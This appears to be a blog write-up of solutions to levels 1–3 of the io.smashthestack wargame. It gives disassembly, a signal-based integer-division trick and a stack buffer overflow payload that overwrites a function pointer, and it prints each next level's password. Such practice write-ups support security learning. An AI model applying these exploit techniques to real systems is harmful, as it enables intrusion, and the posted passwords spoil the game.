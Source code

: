 ```yaml
---
layout: post
title: "IO | a wargame @ io.smashthestack.org - solutions level 1-?"
date: 2015-01-19
comments: true
categories:
---
```


A wargame consisting of challenges associated with reverse engineering and misc.

##Level01

___

```
.text:08048085                 call    puts
.text:0804808A                 call    fscanf
.text:0804808F                 cmp     eax, 271
.text:08048094                 jz      YouWin
.text:0804809A                 call    exit

```

```
level1@io:~$ /levels/level01 
Enter the 3 digit passcode to enter: 271
Congrats you found it, now read the password for level2 from /home/level2/.pass
sh-4.2$ cat /home/level2/.pass 
3ywr07ZFw5IsdKzU
```

##Level02
I didn't manage to come up with a solution completly on my own, I should read man pages more careful.
___
>man signal
"...also dividing the most negative
integer by -1 may generate SIGFPE."

The part where floating-point exception handler are set:

```
.text:0804858A mov     dword ptr [esp+4], offset catcher ; handler
.text:08048592 mov     dword ptr [esp], 8              ; sig
.text:08048599 call    _signal                         ; signal(SIGFPE, catcher)
```

The part where the division takes place that enables us to cause an exception with the information from the man-page:

```
.text:080485C9 mov     [esp+1Ch], eax                  ; 2nd arg
.text:080485CD mov     edx, ebx
.text:080485CF mov     eax, edx
.text:080485D1 sar     edx, 1Fh
.text:080485D4 idiv    dword ptr [esp+1Ch]             ; 1ndArg/2ndArg, so we must give min int/ -1

```

Everyone likes python :)

```
import sys

print " " + str(-sys.maxint - 1)+ " -1"

```

And the result:

```
level2@io:/tmp$ /levels/level02 $(python level02.py)
source code is available in level02.c

WIN!
sh-4.2$ cat /home/level3/.pass
IFd92yzOnSMv9tkX
```

##Level03

___

This one was a stack vulnerability in it's purest form.

```
.text:08048510 call    _strlen
.text:08048515 mov     [esp+8], eax                    ; size of argv[1]
.text:08048519 mov     eax, [ebp+arg_4]
.text:0804851C add     eax, 4
.text:0804851F mov     eax, [eax]
.text:08048521 mov     [esp+4], eax                    ; argv[1] adress
.text:08048525 lea     eax, [ebp+dest]                 ; destination buffer
.text:08048528 mov     [esp], eax
.text:0804852B call    _memcpy                         ; theres no limitation of the input argument size

```
Obviously we can write an arbitrary amount of data into the input buffer.
The stack layout:

```
.text:080484C8 var_5C          = dword ptr -5Ch
.text:080484C8 dest            = byte ptr -58h
.text:080484C8 var_C           = dword ptr -0Ch
.text:080484C8 arg_0           = dword ptr  8
.text:080484C8 arg_4           = dword ptr  0Ch
```

Var_C is later called, normally holding the adress to the function called bad.
We want to overwrite it with the adress to the function called good :)

```
.text:0804856D mov     eax, [ebp+var_C]
.text:08048570 call    eax
```

So how big is the offset?
58h-0C=4C which is 76 byte.
Lets verify it.

```python
>>> print "A"*76+"BBBB"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

![EAXOwned](/images/EAXLevel3.png)

Awesome!

Adress of good: 0x08048474

So our exploit will be:

```python
print "A"*76+\x74\x84\x04\x08"

```

```
level3@io:/levels$ ./level03 $(python -c "print \"A\"*76+\"\x74\x84\x04\x08\"")
This is exciting we're going to 0x8048474 Win.
sh-4.2$ cat /home/level4/.pass
nSwmULj2LpDnRGU2
```
##Level04

___


##Level05

___


##Level06

___


##Level07

___


